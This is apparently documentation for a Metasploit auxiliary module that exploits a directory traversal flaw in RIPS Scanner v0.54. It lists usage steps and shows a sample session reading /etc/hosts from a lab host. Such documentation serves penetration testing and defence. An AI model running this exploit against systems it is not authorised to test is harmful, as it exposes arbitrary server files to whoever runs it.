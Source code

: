 ## Description

  This module exploits a directory traversal vulnerability in the RIPS Scanner v0.54,
  allowing to read arbitrary files with the web server privileges.


## Vulnerable Application

  [RIPS](http://rips-scanner.sourceforge.net/) is a static source code analyser
  for vulnerabilities in PHP scripts.

  * [RIPS v0.54 Source](https://sourceforge.net/projects/rips-scanner/files/rips-0.54.zip/download)


## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/http/rips_traversal`
  3. `set RHOSTS <rhost>`
  4. `set FILEPATH </path/to/file>`
  5. `run`


## Scenarios

  ```
  msf > use auxiliary/scanner/http/rips_traversal
  msf auxiliary(scanner/http/rips_traversal) > set rhosts 172.16.191.188
  rhosts => 172.16.191.188
  msf auxiliary(scanner/http/rips_traversal) > set filepath /etc/hosts
  filepath => /etc/hosts
  msf auxiliary(scanner/http/rips_traversal) > run
  
   127.0.0.1        localhost
    
    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    
    127.0.0.1 wpad
    
   
  [+] File saved in: /root/.msf4/loot/20190208082709_default_172.16.191.188_rips.traversal_654208.txt
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

